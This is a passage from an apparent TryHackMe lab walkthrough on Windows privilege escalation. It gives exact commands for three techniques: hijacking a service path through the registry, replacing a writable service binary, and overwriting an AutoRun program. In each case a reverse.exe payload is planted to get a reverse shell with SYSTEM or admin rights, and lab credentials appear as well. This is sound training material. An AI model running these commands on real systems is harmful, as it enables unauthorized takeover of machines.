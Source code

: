 reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f

Start a listener on Kali and then start the service to spawn a reverse shell running with `SYSTEM` privileges:

net start regsvc

## Service exploits - Insecure service executables[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#service-exploits-insecure-service-executables "Permalink to this heading")

Query the `filepermsvc` service and note that it runs with `SYSTEM` privileges (`SERVICE_START_NAME`).

sc qc filepermsvc

Using `accesschk.exe`, note that the service binary (`BINARY_PATH_NAME`) file is writable by everyone:

C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

Copy the `reverse.exe` executable you created and replace the `filepermservice.exe` with it:

copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y

Start a listener on Kali and then start the service to spawn a reverse shell running with `SYSTEM` privileges:

net start filepermsvc

## Registry - AutoRuns[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#registry-autoruns "Permalink to this heading")

Query the registry for `AutoRun` executables:

reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Using `accesschk.exe`, note that one of the `AutoRun` executables is writable by everyone:

C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

Copy the `reverse.exe` executable you created and overwrite the AutoRun executable with it:

copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y

Start a listener on Kali and then restart the Windows VM. Open up a new `RDP` session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin (`admin/password123`) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves!

rdesktop MACHINE_IP

## Registry - AlwaysInstallElevated[](https://exploitation.tymyrddin.dev/docs/thm/win-privesc#registry-alwaysinstallelevated "Permalink to this heading")
